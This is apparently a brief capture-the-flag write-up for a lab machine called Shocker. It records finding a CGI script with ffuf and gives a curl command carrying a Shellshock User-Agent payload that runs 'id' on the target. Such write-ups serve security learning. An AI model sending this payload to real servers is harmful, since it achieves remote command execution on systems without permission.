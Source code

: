 # Shocker

## Enum

After scanning with ffuf, the following file was found.  

`cgi-bin/user.sh`

## User

Shellshock vuln found with the following command.  

`curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.129.132.254/cgi-bin/user.sh`

